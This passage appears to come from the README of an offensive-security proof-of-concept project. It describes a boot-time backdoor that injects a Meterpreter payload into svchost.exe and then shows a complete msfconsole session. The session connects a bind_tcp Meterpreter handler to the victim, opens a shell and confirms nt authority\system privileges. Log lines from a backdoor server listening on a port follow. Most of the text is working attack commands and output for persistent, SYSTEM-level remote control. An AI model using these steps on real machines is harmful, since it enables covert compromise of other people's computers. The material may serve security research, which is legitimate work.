 When operating system startup is complete Boot Backdoor will inject Meterpreter payload into the `svchost.exe` process running as local system. Now you can connect to the Meterpreter TCP port from `msfconsole` just as usual:

```
$ msfconsole

     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.0.42-dev-                         ]
+ -- --=[ 2124 exploits - 1138 auxiliary - 361 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Save the current environment with the
save command, future console restarts will use this
environment again

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 192.168.2.196
RHOST => 192.168.2.196
msf6 exploit(multi/handler) > set RPORT 4444
RPORT => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 192.168.2.196:4444
[*] Sending stage (200262 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.2.196:4444) at 2021-04-28 09:52:41 -0700

meterpreter > shell
Process 7640 created.
Channel 1 created.
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```


[05/01/21 03:50:00 AM]: Log file path is "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.log"
[05/01/21 03:50:00 AM]: Starting backdoor server at address 0.0.0.0:28115
[05/01/21 03:50:00 AM]: server.py PID = 59724, PGID = 59724